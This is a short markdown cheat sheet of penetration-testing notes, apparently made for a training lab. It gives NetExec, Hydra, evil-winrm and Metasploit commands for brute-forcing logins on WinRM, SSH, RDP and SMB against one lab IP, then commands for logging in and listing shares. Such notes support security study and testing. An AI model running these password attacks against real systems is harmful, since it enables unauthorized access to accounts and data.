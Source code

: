 ```yaml
---
title: Network Service Cracking
tags: [hash, password, cracking]
service: ['winrm', 'ssh', 'rdp', 'smb', 'windows']
tools: ['john', 'hashcat', 'hasid', 'netexec', 'hydra']
---
```


# Network Service Cracking

Tools:

`````
sudo apt-get -y install netexec
sudo gem install evil-winrm
`````

## WinRM - NetExec

```shell-session
netexec winrm 10.129.42.197 -u user.list -p password.list

evil-winrm -i 10.129.42.197 -u user -p password
```

## SSH - Hydra

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197

ssh user@10.129.42.197
```

## RDP - Hydra

`````
hydra -L user.list -P password.list rdp://10.129.42.197

xfreerdp /v:10.129.42.197 /u:user /p:password
`````

## SMB - Hydra or Metasploit

`````
# Hydra cracking
hydra -L user.list -P password.list smb://10.129.42.197

# Metasploit password cracking
msf6 > use auxiliary/scanner/smb/smb_login
# Options
set user_file user.list
set pass_file password.list

# View available shares
netexec smb 10.129.42.197 -u "user" -p "password" --shares

# View the share
smbclient -U user \\\\10.129.42.197\\SHARENAME
`````
